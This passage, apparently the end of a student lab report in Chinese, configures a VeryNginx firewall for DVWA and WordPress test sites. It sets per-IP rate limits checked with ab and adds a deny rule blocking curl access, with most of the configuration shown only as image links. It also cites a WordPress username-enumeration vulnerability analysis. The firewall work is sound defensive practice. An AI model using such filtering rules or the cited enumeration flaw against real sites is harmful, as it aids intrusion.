      

   7. 限制DVWA站点的单IP访问速率为每秒请求数 < 50，限制Wordpress站点的单IP访问速率为每秒请求数 < 20，超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**

      * Response

        

      * Frequency Limit

        

      使用`ab`检测，

      

      100次有80次失败，说明测试成功。

      

      100次有50次失败，说明测试成功。

   8. 禁止curl访问

      * Matcher

        

      * Response

        

      * Filter

        

      

## 参考资料

* [How to Install WordPress with LEMP on Ubuntu 20.04](https://www.digitalocean.com/community/tutorials/how-to-install-wordpress-with-lemp-on-ubuntu-20-04) 
* [深入理解 http 反向代理](https://juejin.cn/post/6958987684383555592)
* [Wordpress Username Enumeration 漏洞分析（CVE-2017-5487）](https://paper.seebug.org/239/)
* [VeryNginx](https://github.com/alexazhou/VeryNginx)
* [2021-linux-public-kal1x](https://github.com/CUCCS/2021-linux-public-kal1x)

